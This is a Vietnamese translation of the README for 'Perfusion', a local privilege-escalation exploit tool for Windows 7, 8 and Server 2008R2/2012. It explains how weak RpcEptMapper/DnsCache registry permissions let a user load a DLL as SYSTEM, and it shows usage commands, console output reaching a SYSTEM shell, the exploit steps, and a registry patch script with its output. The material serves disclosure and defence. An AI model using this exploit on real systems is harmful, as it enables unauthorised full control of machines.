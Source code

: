 ```yaml
---
title: Perfusion
date: 12/11/2021
layout: single
header:
  teaser: https://anomali.cdn.rackfoundry.net/images/made/images/uploads/blog/ogThe-Power-of-an-Exploit_1200_603.jpg
---
```


# Perfusion
Tác giả: itm4n

Mã Nguồn: [itm4n/Perfusion](https://github.com/itm4n/Perfusion) 

Trong __Windows 7__, __Windows Server 2008R2__, __Windows 8__, và __Windows Server 2012__, khóa đăng ký của dịch vụ `RpcEptMapper` và` DnsCache` (chỉ dành cho 7 / 2008R2) được định cấu hình với quyền yếu. Bất kỳ người dùng cục bộ nào cũng có thể tạo khóa con `Performance` và sau đó tận dụng ___Windows Performance Counters___ để tải một DLL tùy ý trong ngữ cảnh của dịch vụ WMI là` NT AUTHORITY \ SYSTEM` (do đó có tên là công cụ).

Công cụ này nhằm giúp các nhà tư vấn bảo mật trong quá trình kiểm tra thâm nhập. Phần mềm này được cung cấp nguyên trạng và tác giả có thể sẽ không cung cấp bất kỳ hỗ trợ nào. Mặc dù vậy, tôi đã thử nghiệm nó kỹ lưỡng trên ba máy ảo khác nhau nên không có vấn đề gì đáng kể.

Một bài phân tích chi tiết về nó: [windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  <img src="https://raw.githubusercontent.com/itm4n/Perfusion/master/demo.gif">
</p>

## Nguồn thông tin: 2021-04-21 Cập nhật

Theo [0patch](https://twitter.com/0patch/status/1384495698373120002), lỗ hổng này đã được sửa một phần với Bản cập nhật Windows tháng 4 năm 2021 (ESU). Điều này có nghĩa là các máy chạy phiên bản cập nhật của Windows 8 / Server 2012 sẽ không thể khai thác được nữa. Tuy nhiên, Windows 7 / Server 2008 R2 vẫn dễ bị tấn công. Bạn chỉ cần sử dụng khóa đăng ký `Dnscache` hơn là `RpcEptMapper`. Tôi đã cập nhật PoC để bạn có thể chỉ định thủ công bằng tùy chọn `-k`.

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Đây là những gì bạn sẽ thấy khi khai thác không thành công

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Build instructions

Giải pháp này bao gồm hai dự án cần được biên dịch theo một thứ tự cụ thể. Mọi thứ đều được định cấu hình trước, vì vậy bạn chỉ cần làm theo các hướng dẫn đơn giản sau

1. Mở Giải pháp với Visual Studio 2019
2. Select `Release / x64`
3. `Build > Build Solution`

## Usage

Bạn có thể kiểm tra thông báo trợ giúp bằng cách sử dụng tùy chọn `-h`.

```powershell
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.2
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -k <KEY>  Key - Either 'RpcEptMapper' or 'Dnscache' (default: 'RpcEptMapper')
  -h        Help - That's me :)
```

## Remediation / Patch

Các phiên bản Windows sau dễ bị tấn công:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DnsCache |
| Windows Server 2008R2 | RpcEptMapper, DnsCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

Theo những gì tôi được biết, lỗ hổng này sẽ không được Microsoft sửa chữa vì một số lý do. Giải pháp tốt nhất vẫn là nâng cấp lên Windows 10 / Server 2019 nhưng nếu đó không phải là lựa chọn ngắn hạn, bạn vẫn có thể tự vá sự cố này bằng cách xóa quyền `CreateSubKey` cho cả `NT AUTHORITY\Authenticated Users` và `BUILTIN\Users` trên các khóa đăng ký sau:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`

Tác giả đã tạo bản vá cho lỗ hổng bảo mật này dưới dạng tập lệnh PowerShell: [RegistryPatch.ps1] (RegistryPatch.ps1). Tập lệnh này loại bỏ `CreateSubKey` ngay trên hai khóa đăng ký nêu trên cho các danh tính sau:` NT AUTHORITY \ INTERACTIVE`, `BUILTIN \ Users` và / hoặc` BUILTIN \ Authenticated Users`

- __Kiểm tra xem máy có dễ bị tổn thương không:__ (Windows Server 2012 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Verbose
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
True
```

- __Áp dụng các bản vá:__ (Windows Server 2008 R2 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Patch -Verbose 
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: The new ACL was applied
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\INTERACTIVE" has "QueryValues, CreateSubKey, EnumerateSubKeys, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "CreateSubKey, ReadKey" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: The new ACL was applied
True
```

## How does this exploit work?

Dưới đây là các bước khai thác được thực hiện trong công cụ này:

1. Tiến trình được tạo ở chế độ nền ở trạng thái treo (sử dụng dòng lệnh được chỉ định).
2. DLL trọng tải nhúng được ghi vào thư mục `Temp` của người dùng hiện tại.
3. Khóa `Performance` được tạo trong` HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper` và được điền các giá trị thích hợp, bao gồm cả đường dẫn đầy đủ của DLL đã được tạo ở bước 2.
4. Lớp WMI `Win32_Perf` được tạo và gọi để kích hoạt bộ sưu tập _Windows Performance Counters_.
5. DLL được tải bởi dịch vụ WMI dưới dạng `NT AUTHORITY\SYSTEM` hoặc` NT AUTHORITY\LOCAL SERVICE`.
6. Nếu DLL được tải bởi `NT AUTHORITY\SYSTEM`, Mã thông báo của nó sẽ được sao chép và được áp dụng cho Quy trình do người dùng tạo ban đầu ở bước 1.
7. Mọi thứ được dọn dẹp và Chủ đề chính của Quy trình bị treo được tiếp tục.
